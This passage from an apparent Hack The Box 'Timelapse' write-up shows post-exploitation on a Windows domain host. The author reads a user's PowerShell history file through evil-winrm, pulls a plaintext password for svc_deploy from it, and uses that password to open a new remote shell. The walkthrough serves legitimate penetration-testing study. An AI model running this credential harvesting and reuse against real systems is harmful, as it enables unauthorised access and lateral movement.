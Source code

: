 ```powershell
The command completed successfully.
```

The group `Remote Management Use` has to do with `evil-winrm` that I'm using now.
`Development` user might be interesting.
Let's check privileges.

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

No privileges are useful here.
Now, let's check Powershell command history stored in `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

### Powershell history

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Documents> cat C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

It stores command lines related to password setting.
It reveals that the user `svc_deploy`'s password is set to `E3R$Q62^12p7PLlC%KWaxuaV`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Warning: Press "y" to exit, press any other key to continue

Info: Exiting...

  
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

```